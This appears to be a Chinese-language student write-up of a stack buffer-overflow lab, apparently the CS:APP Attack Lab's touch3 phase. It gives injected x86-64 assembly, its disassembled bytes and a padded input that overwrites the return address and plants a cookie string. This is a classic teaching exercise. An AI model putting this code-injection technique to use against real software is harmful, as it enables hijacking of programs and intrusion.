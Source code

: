 ![image-20221229161705172](README.assets/image-20221229161705172.png)

攻击代码如下

``` assembly
mov $0x5561dca8, %edi	# 修改edi的值,edi保存字符串的地址
pushq $0x4018fa			# 将touch3函数的首地址压栈
retq					# 从栈顶取出地址,返回
```

``` assembly
attack_code.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:   bf a8 dc 61 55          mov    $0x5561dca8,%edi
   5:   68 fa 18 40 00          push   $0x4018fa
   a:   c3                      ret
```

输入的数据如下

```  shell
0x5561dc78: bf a8 dc 61 55 68 fa 18 	
0x5561dc80: 40 00 c3 aa aa aa aa aa		# aa为占位符
0x5561dc88: aa aa aa aa aa aa aa aa
0x5561dc90: aa aa aa aa aa aa aa aa
0x5561dc98: aa aa aa aa aa aa aa aa
0x5561dca0: 78 dc 61 55 00 00 00 00		# 此八个字节将会覆盖返回地址
0x5561dca8: 35 39 62 39 39 37 66 61		# cookie的字符串表示,由于在test的栈帧中,不会被覆盖
```
